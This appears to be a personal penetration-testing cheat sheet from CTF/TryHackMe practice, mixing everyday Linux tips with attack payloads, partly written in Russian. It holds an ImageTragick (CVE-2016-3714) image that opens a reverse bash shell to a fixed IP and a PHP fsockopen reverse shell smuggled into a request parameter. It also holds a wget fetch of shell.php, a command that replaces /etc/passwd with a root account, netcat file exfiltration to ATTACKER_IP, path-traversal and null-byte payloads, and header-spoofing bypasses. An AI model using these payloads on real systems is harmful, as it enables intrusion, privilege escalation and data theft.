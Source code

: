 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
```
```
`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"
grep -n #numbers
grep -i #do not care abuot regex
grep -c #how many times
grep linux * -r recursive # in all files
точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#' #begins with
'^$' #пустые строки
-e '^(#|$)' #начинается или с # или с $(пустая строка)
grep -e 'colou?r' # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root' # only word root, not asdrootas
\grep #unalias
-A5 #five line after the math
-B5 #before
-C5 #before and after
-e '[0-9]{5,6}/tcp' file.txt #от 5 до 6 цифр от 0 до 9
-E '[0-9]$' #number at the end of line
-E '\s*' # space or tab 
+ # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### bypass
```
добавляешь пользователя, формат json, то добавить “role”:"admin"
────────────────────────────────────────────
можно байпаснуть /admin если не пускают: /adMin или /adMin/users
────────────────────────────────────────────
можно удалять эвенты в html, которые выполняют фильтровку 
────────────────────────────────────────────
w'h'o'a'm'i
────────────────────────────────────────────
what=order&id=5$(php -r '$sock=fsockopen("10.18.22.27",5555);exec("sh <&3 >&3 2>&3");')
────────────────────────────────────────────
....//....//....//....//....//....//etc/passwd%00.jpg 
....//....//....//..../
────────────────────────────────────────────
%20 - вместо пробела
file.php%00.jpg #null byte/....//....//etc/passwd%00
────────────────────────────────────────────
можно перезарегаться за пользователя, добавив просто пробел перед его username
────────────────────────────────────────────
bypass limit
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
────────────────────────────────────────────
login with '*'
search with '.*'
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
```
#### [steal admin cookie/sqli](marketplace.md) (tryhackme:marketplace)
#### [ohmyweb](omyweb.md)

---